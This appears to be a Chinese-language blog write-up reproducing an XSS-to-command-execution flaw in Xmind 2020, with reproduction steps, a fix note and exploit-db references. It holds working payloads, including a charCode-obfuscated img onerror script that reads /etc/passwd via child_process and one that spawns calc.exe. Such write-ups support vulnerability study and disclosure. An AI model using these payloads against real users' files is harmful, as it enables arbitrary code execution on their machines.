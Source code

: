 ```yaml
---
title: xmind2020存在XSS漏洞可导致命令执行
top: false
categories:
- 渗透测试
tags:
- 漏洞复现
- xmind2020
- XSS
cover: 'https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/xmind2020.jpg'
abbrlink: 45828
date: 2021-05-11 09:53:59
keywords:
summary:
password:
---
```


### 漏洞描述

Xmind2020 存在XSS漏洞，攻击者可利用该漏洞进行命令执行。由于软件允许用户以文件形式或自定义标题标题的形式存储JS代码，攻击者可以发送带有恶意JS代码的文件。用户打开文件后，从而执行攻击者预先设定好的命令。





### 漏洞复现

测试环境：ubuntu18.04、xmind2020



**1.打开xmind后，在思维导图模式下输入以下Payload：**

```javascript
<img src=x onerror=writeln(String.fromCharCode(60,115,99,114,105,112,116,62,10,99,111,110,115,116,32,123,32,115,112,97,119,110,32,125,32,61,32,114,101,113,117,105,114,101,40,34,99,104,105,108,100,95,112,114,111,99,101,115,115,34,41,59,10,99,111,110,115,116,32,99,97,116,32,61,32,115,112,97,119,110,40,34,99,97,116,34,44,32,91,34,47,101,116,99,47,112,97,115,115,119,100,34,93,41,59,10,99,97,116,46,115,116,100,111,117,116,46,111,110,40,34,100,97,116,97,34,44,32,100,97,116,97,32,61,62,32,123,10,32,32,32,32,97,108,101,114,116,40,96,115,116,100,111,117,116,58,32,36,123,100,97,116,97,125,96,41,59,10,125,41,59,60,47,115,99,114,105,112,116,62))>
```

解码后数据即为：

```javascript
//Decode Payload
<script>
const { spawn } = require("child_process");
const cat = spawn("cat", ["/etc/passwd"]);
cat.stdout.on("data", data => {
    alert(`stdout: ${data}`);
});</script>
```

![插入payload](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/xmind_payload1.png)



补充知识：

```javascript
// 1.str转unicode序列
var c = "<script>\nvar Process = process.binding('process_wrap').Process;\nvar proc = new Process();\nproc.onexit = function(a,b) {};\nvar env = process.env;\nvar env_ = [];\nfor (var key in env) env_.push(key+'='+env[key]);\nproc.spawn({file:'c:\\windows\\system32\\calc.exe',cwd:null,windowsVerbatimArguments:false,detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},{type:'ignore'}]});\n</script>"

var codeArr = [];
for(var i=0;i<c.length;i++){
    codeArr.push(c.charCodeAt(i));
}
console.log(codeArr);



// 2.unicode序列还原为str
var n = String.fromCharCode(60, 115, 99, 114, 105, 112, 116, 62, 10, 118, 97, 114, 32, 80, 114, 111, 99, 101, 115, 115, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 98, 105, 110, 100, 105, 110, 103, 40, 39, 112, 114, 111, 99, 101, 115, 115, 95, 119, 114, 97, 112, 39, 41, 46, 80, 114, 111, 99, 101, 115, 115, 59, 10, 118, 97, 114, 32, 112, 114, 111, 99, 32, 61, 32, 110, 101, 119, 32, 80, 114, 111, 99, 101, 115, 115, 40, 41, 59, 10, 112, 114, 111, 99, 46, 111, 110, 101, 120, 105, 116, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 97, 44, 98, 41, 32, 123, 125, 59, 10, 118, 97, 114, 32, 101, 110, 118, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 101, 110, 118, 59, 10, 118, 97, 114, 32, 101, 110, 118, 95, 32, 61, 32, 91, 93, 59, 10, 102, 111, 114, 32, 40, 118, 97, 114, 32, 107, 101, 121, 32, 105, 110, 32, 101, 110, 118, 41, 32, 101, 110, 118, 95, 46, 112, 117, 115, 104, 40, 107, 101, 121, 43, 39, 61, 39, 43, 101, 110, 118, 91, 107, 101, 121, 93, 41, 59, 10, 112, 114, 111, 99, 46, 115, 112, 97, 119, 110, 40, 123, 102, 105, 108, 101, 58, 39, 99, 58, 92, 119, 105, 110, 100, 111, 119, 115, 92, 115, 121, 115, 116, 101, 109, 51, 50, 92, 99, 97, 108, 99, 46, 101, 120, 101, 39, 44, 99, 119, 100, 58, 110, 117, 108, 108, 44, 119, 105, 110, 100, 111, 119, 115, 86, 101, 114, 98, 97, 116, 105, 109, 65, 114, 103, 117, 109, 101, 110, 116, 115, 58, 102, 97, 108, 115, 101, 44, 100, 101, 116, 97, 99, 104, 101, 100, 58, 102, 97, 108, 115, 101, 44, 101, 110, 118, 80, 97, 105, 114, 115, 58, 101, 110, 118, 95, 44, 115, 116, 100, 105, 111, 58, 91, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 93, 125, 41, 59, 10, 60, 47, 115, 99, 114, 105, 112, 116, 62);

console.log(n);
```



**2.点击大纲。在大纲模式下，选中payload，按下Ctrl+C快捷键触发该Payload，执行`calc`命令。**

![执行成功](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/xmind_attack_ok.png)



### 修复建议

该漏洞在大纲模式下触发，Xmind 2020的使用者，谨慎打开Xmind的大纲模式。





### 参考

[Xmind 2020 - XSS to RCE - Multiple webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/49827)

[漏洞情报 | Xmind 2020 XSS漏洞导致命令执行 (qq.com)](https://mp.weixin.qq.com/s/JCj4yPN5ORGt1WGc7gpuDQ)